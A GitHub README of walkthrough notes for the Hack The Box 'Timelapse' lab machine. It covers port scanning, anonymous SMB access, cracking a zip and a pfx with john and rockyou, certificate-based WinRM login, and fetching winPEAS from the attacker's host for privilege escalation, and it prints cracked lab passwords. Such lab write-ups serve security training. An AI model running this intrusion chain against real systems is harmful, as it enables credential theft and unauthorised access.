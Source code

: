 <div id="top"></div>
<!--
*** Thanks for checking out the Best-README-Template. If you have a suggestion
*** that would make this better, please fork the repo and create a pull request
*** or simply open an issue with the tag "enhancement".
*** Don't forget to give the project a star!
*** Thanks again! Now go create something AMAZING! :D
-->



<!-- PROJECT SHIELDS -->
<!--
*** I'm using markdown "reference style" links for readability.
*** Reference links are enclosed in brackets [ ] instead of parentheses ( ).
*** See the bottom of this document for the declaration of the reference variables
*** for contributors-url, forks-url, etc. This is an optional, concise syntax you may use.
*** https://www.markdownguide.org/basic-syntax/#reference-style-links
-->



<!-- PROJECT LOGO -->
<br />
<div align="center">

<h1 align="center">HTB Timelapse Notes</h1>

</div>

![Timelapse](https://user-images.githubusercontent.com/19478700/173301506-f8a85cbf-aafd-4028-85c9-63cfae763820.png)





<!-- ABOUT THE PROJECT -->
## About The Project
Timelapse HTB Machine


## Steps

### 1. Nmap Scans:
  ```sh
   nmap -p- 10.10.11.152
   ```
   ```sh
      PORT      STATE SERVICE          REASON
      53/tcp    open  domain           syn-ack ttl 127
      88/tcp    open  kerberos-sec     syn-ack ttl 127
      135/tcp   open  msrpc            syn-ack ttl 127
      139/tcp   open  netbios-ssn      syn-ack ttl 127
      389/tcp   open  ldap             syn-ack ttl 127
      445/tcp   open  microsoft-ds     syn-ack ttl 127
      464/tcp   open  kpasswd5         syn-ack ttl 127
      593/tcp   open  http-rpc-epmap   syn-ack ttl 127
      636/tcp   open  ldapssl          syn-ack ttl 127
      3268/tcp  open  globalcatLDAP    syn-ack ttl 127
      3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
      5986/tcp  open  wsmans           syn-ack ttl 127
      9389/tcp  open  adws             syn-ack ttl 127
      49667/tcp open  unknown          syn-ack ttl 127
      49673/tcp open  unknown          syn-ack ttl 127
      49674/tcp open  unknown          syn-ack ttl 127
      49696/tcp open  unknown          syn-ack ttl 127
      51231/tcp open  unknown          syn-ack ttl 127
   ```


```sh
   nmap -sVC 10.10.11.152
   ```


```sh
   PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-06-13 15:03:29Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?      syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
   ```
   
   

### 2.SMB Enumeration:
  ```sh
   smbclient -N -L 10.10.11.152
   ```

   ```sh
   Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shares          Disk      
        SYSVOL          Disk      Logon server share 
   ```

  Ivestiating we find several files on Shares share:

   ```sh
   smbclient \\\\10.10.11.152\\Shares
   ```

   ```sh
    LAPS_Datasheet.docx               LAPS.x64.msi
    LAPS_OperationsGuide.docx         winrm_backup.zip
    LAPS_TechnicalSpecification.docx

   ```

  winrm_backup seems interesting but its password protected.
  DOCX Files contain documentation about how passwords are managed arround the directory.
  
### 3.Cracking ZIP:
  
  lets try to crack the zip
   ```sh
   fcrackzip -D -u winrm_backup.zip -p /usr/share/wordlists/rockyou.txt
   ```
   ```sh
   PASSWORD FOUND!!!!: pw == supremelegacy
   ```
   Zip password was weak: supremelegacy
   We obtain legacyy_dev_auth.pfx
   
   

### 4.Cracking pfx:
  A quick Google search about extracting cert keys from pfx:
  https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file
  but we need to obtain the pfx key first so we are gonna try to crack it using john
  Convert:
  ```sh
  pfx2john legacyy_dev_auth.pfx > pfx_john_legacy.hash
  ```
  
  ```sh
  john -w=/usr/share/wordlists/rockyou.txt pfx_john_legacy.hash 
  ```
  
  ```sh
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:02:13 DONE (2022-06-13 04:00) 0.007506g/s 24256p/s 24256c/s 24256C/s thuglife03282006..thug209
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
  Found pfx pass: thuglegacy
  
  Now lets extract key and cert:
  
  Extract cert:
   ```sh
   openssl pkcs12 -in legacyy_dev_auth.pfx -out cert.pem
   ```
   
   Extract priv key:
   ```sh
   openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.pem -nodes
   ``` 
   
   After formatting the files correctly we can connect via ssh:
   
   ```sh
   evil-winrm -S -k formated/key.key -c formated/cert.crt -i 10.10.11.152
   ``` 

![image](https://user-images.githubusercontent.com/19478700/173311463-09780f02-46e4-4b45-8b29-035ae846986b.png)

  
##### USER FLAG OWNED

![image](https://user-images.githubusercontent.com/19478700/173313648-fb8d2a9d-8b5a-4d3f-9771-e3fec5ea63d3.png)


   
### 5:Privilege Escalation (System OWN):

Lets run winpeas:

```ps
Invoke-WebRequest -Uri 10.10.14.20:8000/winPEASx64.exe -OutFile winpeas.exe
````   
![image](https://user-images.githubusercontent.com/19478700/173314965-14ff10cc-c549-4570-9114-24cdf709562f.png)
![image](https://user-images.githubusercontent.com/19478700/173315089-57029e2f-f9dc-4e1f-8849-d6f241d79822.png)

![image](https://user-images.githubusercontent.com/19478700/173319106-86d50ee4-c091-474b-b2d8-5f94ed0e127d.png)

My pass is :  E3R$Q62^12p7PLlC%KWaxuaV


![image](https://user-images.githubusercontent.com/19478700/173321231-fa385579-6034-48a4-b496-8f10195f165c.png)
![image](https://user-images.githubusercontent.com/19478700/173321468-1b361114-94aa-478d-8529-0db4d7bc5ce3.png)


`
pass: : 'G!OSV[!-e[-w).,4rK6G,78/
``



<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE.txt` for more information.

<p align="right">(<a href="#top">back to top</a>)</p>



<!-- CONTACT -->
## Contact

Pol Galvez - polgalvezsoriano@gmail.com

<p align="right">(<a href="#top">back to top</a>)</p>



<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [aidenpearce369.github.io](aidenpearce369.github.io)

<p align="right">(<a href="#top">back to top</a>)</p>



<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->
[contributors-shield]: https://img.shields.io/github/contributors/github_username/repo_name.svg?style=for-the-badge
[contributors-url]: https://github.com/github_username/repo_name/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/github_username/repo_name.svg?style=for-the-badge
[forks-url]: https://github.com/github_username/repo_name/network/members
[stars-shield]: https://img.shields.io/github/stars/github_username/repo_name.svg?style=for-the-badge
[stars-url]: https://github.com/github_username/repo_name/stargazers
[issues-shield]: https://img.shields.io/github/issues/github_username/repo_name.svg?style=for-the-badge
[issues-url]: https://github.com/github_username/repo_name/issues
[license-shield]: https://img.shields.io/github/license/github_username/repo_name.svg?style=for-the-badge
[license-url]: https://github.com/github_username/repo_name/blob/master/LICENSE.txt
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://linkedin.com/in/linkedin_username
[product-screenshot]: images/screenshot.png
